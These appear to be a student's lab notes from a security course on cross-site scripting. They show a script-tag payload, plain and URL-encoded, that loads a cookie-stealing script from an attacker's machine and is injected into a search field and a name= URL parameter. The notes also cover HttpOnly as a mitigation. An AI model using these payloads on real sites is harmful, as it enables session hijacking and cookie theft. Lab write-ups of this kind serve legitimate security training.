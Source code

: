 As shown above, we edited the xss2.js file to extract and encode the cookie and send a GET request back to our Kali VM with the encoded value. We'll paste the script payload into the Search application and submit the payload.

```js
<script src="http://192.168.45.223:80/xss2.js"></script>
```
This is an example of what the field that we enter the script in looks like
![[Pasted image 20240731180352.png]]
Submitted the script above and it got rendered
![[Pasted image 20240731174739.png]]
python3 server pulling it back
![[Pasted image 20240731174856.png]]
As shown in Listing 3, we edited the xss2.js file to extract and encode the cookie and send a GET request back to our Kali VM with the encoded value. We'll paste the script payload into the Search application and submit the payload.

![[Pasted image 20240731175651.png]]
Again, we'll "exploit" ourselves but since we don't have cookie set, the log in our HTTP server will be empty.
![[Pasted image 20240731175827.png]]
We can safely ignore the 404 error correctly stating that the "exfil" file doesn't exist because finding this log means that the data was exfiltrated.
Next, let's have the victim run this page. This time, we'll check the box titled "Use Non-HttpOnly Cookie" and then click _Render_.
![[Pasted image 20240731175929.png]]
The page loads normally, but if we check our HTTP log, we can find a cookie value that was exfiltrated!
![[Pasted image 20240731180109.png]]
Excellent! However, let's uncheck the "Use Non-HttpOnly Cookie" and check "Use HttpOnly Cookie" instead. When we click _Render_, the page loads normally again, but if we check the log, we don't find a cookie.
![[Pasted image 20240731180151.png]]
![[Pasted image 20240731180215.png]]
When a cookie is set with the HttpOnly flag, JavaScript cannot access it so we can't exfiltrate its value. This is how XSS can be mitigated
##### Labs
###### 1
![[Pasted image 20240731181939.png]]
When first browsing to the `Donate` tab, I notice that `Samantha` is tied to the URL
![[Pasted image 20240731182057.png]]
Immediately I know that when `XSS` is utilized it is typically rendered in `URL-Encoding` so i took my payload from the previous exercises and url encoded it
Before Encoding:
```js
<script src="http://192.168.45.223:80/xss2.js"></script>
```
After `URL-Encoding`
```js
%3Cscript%20src%3D%22http%3A%2F%2F192.168.45.223%3A80%2Fxss2.js%22%3E%3C%2Fscript%3E
```
![[Pasted image 20240731182333.png]]
Insert it in the `name=` field, hit enter and rendered on the `victim` side
![[Pasted image 20240731182447.png]]
In the `python3` server you can see that the blue is from us exploiting ourselves on the left side of the screen, and the yellow is the actual cookie
![[Pasted image 20240731182637.png]]